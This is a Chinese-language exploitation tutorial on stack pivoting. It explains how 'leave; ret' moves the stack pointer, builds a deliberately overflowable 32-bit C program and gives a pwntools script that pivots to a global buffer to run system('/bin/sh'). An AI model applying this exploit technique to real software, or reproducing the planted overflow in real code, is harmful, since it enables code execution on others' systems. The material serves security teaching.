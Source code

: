 ```yaml
---
title: "栈迁移"
description: ""
lead: ""
date: 2023-06-01T21:17:56+08:00
lastmod: 2023-06-01T21:17:56+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "stack_pivoting-28d6785c5956b294688cec7ec2408a70"
weight: 5
toc: true
---
```


## 0x01 介绍

很多时候由于溢出栈字节不够多，不能构造完整的payload，这时候就需要用到stack pivoting技巧来完成操作。它的核心理念在于如果我们在某个内存中可以输入完整的payload，那么我们就可以用该技巧将当前栈顶指针修改指向这段内存，然后通过一些指令来执行这段内存里的payload。

最常见的指令是`leave;ret`指令。leave是相对于函数序言的相反操作，函数序言的操作为

```
 push ebp
 mov ebp, esp
```

将上一个函数栈帧的栈底指针压入到栈中，然后在将当前esp赋值给ebp即设置当前栈帧的栈底指针。leave的操作刚好相反，先将当前ebp赋值给esp，在弹出当前栈顶即恢复上一个函数栈帧的栈底指针，相当于以下指令

```
 mov esp, ebp
 pop ebp
```

如果我们在溢出的是否覆盖了保存在栈里的上一个栈帧的栈底指针，通过leave指令就会将这个值保存到了ebp里，如果这时候再次执行leave指令，则会将ebp中保存的修改后的指针赋值给esp，也就是将当前栈顶指针迁移到了我们覆盖的地址+一个栈单元处。 

![38e74847529c7bb77305089dad130632](images/38e74847529c7bb77305089dad130632.png) 加一个栈单元的原因是leave会在esp转移过去后先pop一个栈单元到ebp中。如果我们在指定的地址+一个栈单元处填了ROP链，那么迁移过去后执行ret指令就会开始执行ROP链。以一个例子来说

```cpp
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>
 char data[0x1000] = {0};// 防止其他函数操作覆盖到got之类的数据
 char p[0x20];
 ​
 void hint() {
     system("echo flag");
 }
 ​
 void run() {
     char buf[0x10];
     read(0, buf, 0x20);
     read(0, p, 0x20);
 }
 ​
 int main() {
     run();
     return 0;
 }
 // gcc stack_pivoting.c -o stack_pivoting -m32 -fno-stack-protector -no-pie
```

第一次输入虽然是栈溢出，但是它只能覆盖到函数返回地址，而且程序只有system函数，还需要自己构造`/bin/sh`字符串，第二次输入是往全局变量里写入字符串，我们可以将`/bin/sh`写入到里面并同时构造`system("/bin/sh")`的ROP链，它的结构可以为

![79afcb7258bc9b580d6c8be32b5bdd74](images/79afcb7258bc9b580d6c8be32b5bdd74.png)

`/bin/sh\x00`在末尾的目的是为了防止在解析system函数实际地址的时候被覆盖掉导致无法执行 我们通过栈溢出覆盖上一个栈帧的栈底指针为这里的system@plt-4的位置，然后将函数返回地址覆盖为leave指令的地址，最后执行完两次leave后esp就迁移到了system@plt的位置，这时候再执行ret指令，就会执行`system("/bin/sh")`的ROP链了。我们可以写出攻击脚本为

```python
 from pwn import*
 context.log_level = 'debug'
 o = process("./stack_pivoting")
 system_plt = 0x8048310
 p = 0x804b040
 leave_ret = 0x8048482
 payload = b'a'*0x18 + p32(p-4) + p32(leave_ret)
 o.send(payload)
 payload = p32(system_plt) + p32(p+12)*2 + b"/bin/sh\x00"
 o.sendline(payload)
 o.interactive()
```

![7d263d36c1630a0ce955c35cbb7c90e6](images/7d263d36c1630a0ce955c35cbb7c90e6.png)  

栈迁移除了可以迁移到bss，还可以迁移到很多地方，只要你有地址就可以尝试迁移，比如栈或者堆
